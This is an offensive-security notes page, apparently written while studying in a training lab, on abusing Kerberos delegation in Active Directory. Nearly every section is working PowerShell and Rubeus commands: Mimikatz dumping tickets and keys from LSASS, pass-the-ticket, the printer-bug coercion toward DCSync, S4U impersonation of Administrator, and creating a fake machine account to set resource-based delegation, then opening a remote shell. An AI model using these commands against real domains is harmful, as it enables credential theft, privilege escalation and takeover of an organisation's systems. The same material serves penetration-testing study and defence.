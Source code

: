 # Delegations

Kerberos delegation allows services to impersonate the user in order to communicate with another service and perform actions on behalf the user.

## Unconstrained Delegation

Unconstrained Delegation allowing any service to use a user TGT in order to communicate with the **any** other service.

The TGT will be stored in the LSASS process.

### Enumerate

{% tabs %}
{% tab title="PowerView" %}
```powershell
Get-DomainComputer -UnConstrained
```
{% endtab %}

{% tab title="AD Module" %}
```powershell
Get-ADComputer -Filter {TrustedForDelegation -eq $True}
Get-ADUser -Filter {TrustedForDelegation -eq $True}
```
{% endtab %}
{% endtabs %}

### Exploitation

It is possible to extract the TGTs from the service's LSASS process using `Mimikatz` and perform pass the ticket.

```powershell
# Extract the TGT
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'

# Pass the ticket
Invoke-Mimikatz -Command '"kerberos::ptt TGT.kirbi"' 
Rubeus.exe ptt /ticket:"base64 | file.kirbi" # Rubues allows base64 format as alternative
```

### Printer bug

The printer bug uses an RPC call of MS-RPRN which allows any domain user can force any machine that running the Spooler service to connect to second a machine of the domain user's choice.

1. Run on compromised Server Rubeus monitor

```powershell
Rubeus.exe monitor /interval:5 /nowrap
```

2. Run on compromised Domain User the RPC Call using [SpoolSample](https://github.com/leechristensen/SpoolSample) \ [Coercer](https://github.com/p0dalirius/Coercer)

```powershell
MS-RPRN.exe \\dc.machine.local \\compromised.machine.local
```

3. Pass The Ticket
4. DC Sync

## Constrained Delegation

Constrained Delegation allowing **specified** services on **specified** computers to use a user TGT in order to communicate with the **any** other service.

in order to create a more restrictive delegation mechanism, Microsoft develop two Kerberos extensions known as  Service for user (S4U):

* Service for User to Self  (S4U2self) - allows a service to obtain forwardable TGS to itself on behalf of user.
* Service for User to Proxy (S4U2proxy) - allows a service to obtain a TGS to another service on behalf of user.\
  Note that the other services are from white list controlled by `msDS-AllowedToDelegateTo` attribute.

### Enumerate

{% tabs %}
{% tab title="PowerView" %}
```powershell
Get-DomainUser -TrustedToAuth
Get-DomainComputer -TrustedToAuth
```
{% endtab %}

{% tab title="AD Module" %}
```powershell
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo
```
{% endtab %}
{% endtabs %}

### Exploitation

{% code overflow="wrap" %}
```powershell
Rubeus.exe s4u /user:websvc /aes256:<aes256_key> /impersonateuser:Administrator /msdsspn:CIFS/dcorp-mssql.dollarcorp.moneycorp.local /ptt

# You can change the target service in the ticket
Rubeus.exe s4u /user:dcorp-adminsrv$ /aes256:<aes256_key> /impersonateuser:Administrator /msdsspn:time/dcorp-dc.dollarcorp.moneycorp.LOCAL /altservice:ldap /ptt
```
{% endcode %}

Check if worked

```powershell
ls \\dcorp-mssql.dollarcorp.moneycorp.local\c$ 
```

## Resource Based Delegation

Instead of the white list of SPNs controlled by `msDS-AllowedToDelegateTo` attribute, resource based controlled by the `msDS-AllowedToActOnBehalfOfOtherIdentity`

To abuse RBCD we need Write permissions over the target machine `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute.

### Enumerate

```powershell
# Check if allowed to create machines
Get-DomainObject -Identity "dc=domain,dc=local" -Domain domain.local | select ms-ds-machineaccountquota

# Check Write premissions to modify msDS-AllowedToActOnBehalfOfOtherIdentity attribute on target machine
Find-InterestingDomainACL | ?{$_.identityreferencename -match 'ciadmin'}

# Check if RBCD is set using PowerView - This can be used to verify also
Get-DomainRBCD  
```

### Exploitation

#### Create fake machine

```powershell
# Using Powermad
import-module powermad
New-MachineAccount -MachineAccount dcorp-student483 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```

#### Change security descriptor

<pre class="language-powershell"><code class="lang-powershell">$TargetComputer = 'dcorp-mgmt'
$FakeComputer = 'dcorp-student483'

# Using PowerView
$ComputerSid = Get-DomainComputer $FakeComputer -Properties objectsid | Select -Expand objectsid
<strong>$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$ComputerSid)"
</strong>$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer $TargetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

# One liner using PowerView
Set-DomainRBCD -Identity $TargetComputer -DelegateFrom $FakeComputer -Verbose   
# Using AD Module
Set-ADComputer -Identity dcorp-mgmt -PrincipalsAllowedToDelegateToAccount $FakeComputer 

# Verify
Get-DomainComputer dcorp-mgmt -Properties 'msds-allowedtoactonbehalfofotheridentity'
# Verify Result
msds-allowedtoactonbehalfofotheridentity
----------------------------------------
{1, 0, 4, 128...}

# Verify using ADModule
Get-ADComputer dcorp-mgmt -Properties PrincipalsAllowedToDelegateToAccount
</code></pre>

#### Abuse using Rubeus

```powershell
## Get the fake machine hash
Rubeus.exe hash /password:123456 /user:dcorp-student483 /domain:dollarcorp.moneycorp.local
## If used AD Module need to extract the hash from lsass using mimikatz
Invoke-Mimikatz -Command '"sekurlsa::ekeys"'

# Imporsnate
Rubeus.exe s4u /user:dcorp-student483$ /rc4:32ED87BDB5FDC5E9CBA88547376818D4 /impersonateuser:Administrator /msdsspn:http/dcorp-mgmt /ptt

# Verify (winrs on this case)
winrs -r:dcorp-mgmt cmd
```
